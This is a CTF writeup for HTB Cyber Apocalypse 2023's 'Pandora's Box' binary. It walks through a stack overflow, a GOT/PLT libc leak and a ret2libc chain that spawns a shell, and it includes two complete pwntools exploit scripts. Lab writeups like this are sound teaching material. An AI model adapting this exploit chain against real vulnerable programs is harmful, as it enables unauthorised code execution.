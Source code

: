 
# Return-to-libc/ret2libc -64bit ELF ASLR - HTB Cyber Apocalypse 2023 CTF Pandora's box 

Consider giving this a star if you found it helpfull

## This is my writeup for the "Pandora's Box" challange from HTB Cyber Apocalypse 2023 CTF.



After downloading the pb file we run the ```file ./pb``` command wich gives the folowing output:

![alt text](images/file.png?raw=true "File")

We can see that the pb file is a 64 bit elf file.

if we run checksec we can see that NX is enabled so no stack execution.

if we analyze the file in ghidra we can see that the main function calls 4 other functions, setup(), cls(), banner() and box. Most of them are not intresting but the box function is.

![alt text](images/ghidra.png?raw=true "File")

The Box function contains a vulnarble fgets() fucntion. but we have to make sure the first input we give it is '2'. If we run the program we also see that if we choose option 2 it asks us for a input.

If we input some random characters the program wil send a message and shut down. If we give the program an input of A's, thats really long we get an error and the program exits. This is the vulnarble fgets()

![alt text](images/segfault.png?raw=true "seg")

When we run a obj dump (```objdump ./pb -d```). we can see that the program contains no obvious win function. It does contain a box() function. So no re2win challange. but by looking at the functions in ghidra we know the program uses some functions from libc like puts(), prinf(), read() and more. So this looks like a ret2libc challange. Also it ask us for a location in the "library" so...


If we open the program in gdb we can get a better look at what is going on inside. ```gdb ./pb``` (Note: I am using geff extention for gdb). We know the second input is vulnarble so i create a cyclic pattern wiht gbd (```pattern create```) and use that to find the offset. If we copy and paste the cyclic pattern in the input end press enter tho program overflows and we can find our offset by searching fot the first 4 characters of the rsp register. (```pattern search haaa```)
![alt text](images/overflow.png?raw=true "overflow")

Because the file is a 64 bit elf the RIP address has to be a 48 bit canonical address wich means the address has to be in the range ```0x0000000000000000``` to ```0x00007FFFFFFFFFFF``` and ```0xFFFF800000000000``` to ```0xFFFFFFFFFFFFFFFF```. otherwise the address wont be able to clutter the RIP. If we input a bunch of A's we are overwriting the rip with a non-canonical address. If we however run the program with 56 A's (offset) and add a 6 bytes canonial address of 6 B's ```0x0000424242424242``` to the end we can see we can control the RIP.

The ret-to-libc technique is similar to the standard stack overflow attack with one important distinction: instead of overwriting the return address of the vulnerable function with the address of the shellcode, the return address is going to point to a function in the libc library like system(), so we can execute shell code that is stored in the regestry as arguments.

before we can point to system its important to know if ASLR (Address Space Layout Randomisation) is enabled. For that we can run the ```ldd ./pb``` function twice and compare the address of libc. When we do this we can see that the adress dont match so ASLR is enabled and this means we have to leak the adress of libc first before we can find system() in libc.

![alt text](images/ldd.png?raw=true "ldd")

to leak the adress we first need to find out the adress of a libc function in both the GOT and the PLT, we can use ghidra for this part again. With ghidra we can select the .got and .plt sections in the program trees. Here we have to find the addresses of a libc funciton in both. In this case I used puts().

![alt text](images/got.png?raw=true "got")

after that we we need to find a "pop rdi, ret" gadget adress with ```ropper -f ./pb | grep rdi```and combine this with the adress of got and plt puts() to leak the addres of puts() in libc and from there we can caluclate the base adress of libc. I made a python script to do this using pwntools.

```
from pwn import *
from time import sleep
import sys

r =gdb.debug('./pb', '''

        c
''')


r    = remote(IP, PORT)
exe = './pb'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
rop = ROP(elf)








rop.raw("A" * 56) # paddding
rop.raw(0x000000000040142b) # pop rdi
rop.raw(0x00403fa0) # got_put
rop.raw(0x00401030) # plt_put
rop.raw(0x0000000000401016) #ret for stack aligment
rop.raw(0x00000000004013be) #adress in main that does not result in SIGEV

#wait for first read and select option 2
r.recvuntil(b">>") 
r.sendline(b'2')
#wait for second read and send payload
r.recvuntil(b'Insert location of the library: ')
r.sendline(rop.chain())
#reading unimportant bytes
r.recvuntil(b'!\x0a\x0a')
#reading leaked address 
leak = unpack(r.recv()[:6].ljust(8, b"\x00"))

print("Leaked puts:" + str(hex(leak)))

```
The payload consist of a padding, then the pop rdi gadget, adress of puts in got, adress of plt in puts, a ret gadget wich is just a ret instruction to do some stack alligments and not get SIGBUS or SIGEV (```ropper -f ./pb | grep ret```) and lastly an adress in main. I used the call to box() adress in main because returining to main directly seem to result in stack alligment issues. we can find this adress by using ```objdump ./pb -d``` and looking for the main function.

![alt text](images/calbox.png?raw=true "calbox")

After that sending the payload the code returns a lot of bytes most of them being the banner of box() but the last few bytes are the adress of puts() in libc. now we cam just calculate the base adress of libc.

we can do this by finding the offset of puts() in the ./glibc/libc.so.6. while we are finding these ofsets we also need to find the offset of system and a shellcommand so we can use that as argument for system().

we can find the offsets with ```objdump ./glibc/libc.so.6 -d | grep puts``` and  ```objdump ./glibc/libc.so.6 -d | grep system```

![alt text](images/putsinc.png?raw=true "putsinc")

the addres off the ```/bin/sh``` we can find by using ```strings -a -t x ./glibc/libc.so.6 |grep /bin/sh```


from there we just have to calculate the base adress, create our rop chain and retrive a shell.


Here is the rest of the python script using pwn tools to handle the program localy or remotly.

```

from pwn import *
from time import sleep
import sys 


# IP   = '104.248.169.117' 
# PORT = 31796
#r    = remote(IP, PORT)

r =gdb.debug('./pb', '''

        c
''')


exe = './pb'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
rop = ROP(elf)








rop.raw("A" * 56) # paddding
rop.raw(0x000000000040142b) # pop rdi
rop.raw(0x00403fa0) # got_put
rop.raw(0x00401030) # plt_put
rop.raw(0x0000000000401016) #ret for stack aligment
rop.raw(0x00000000004013be) #adress in main that does not result in SIGEV

#wait for first read and select option 2
r.recvuntil(b">>") 
r.sendline(b'2')
#wait for second read and send payload
r.recvuntil(b'Insert location of the library: ')
r.sendline(rop.chain())
#reading unimportant bytes
r.recvuntil(b'!\x0a\x0a')
#reading leaked address 
leak = unpack(r.recv()[:6].ljust(8, b"\x00"))

print("Leaked puts:" + str(hex(leak)))
rop2 = ROP(elf)
# second part - use leaked address to preform ret2libc
libc_puts = 0x080ed0 
libc_sys  = 0x050d60
libc_sh = 0x1d8698

offset = leak - libc_puts
sys = offset + libc_sys
sh = offset + libc_sh

log.info("Going again:\n")
rop2.raw("A" * 56)
rop2.raw(0x000000000040142b) #pop rdi
rop2.raw(sh) # addres of bin/sh
rop2.raw(0x0000000000401016) #ret stack alligment
rop2.raw(sys)# adress of system


#selecting option 2
r.send(b'2')
r.recvuntil(b'Insert location of the library: ')
#sending payload
r.sendline(rop2.chain())
#SHELL!
r.interactive()

```
![alt text](images/shell.png?raw=true "shell")

I hope this helped you out,
Thanks for reading, Suggestions & Feedback are appreciated !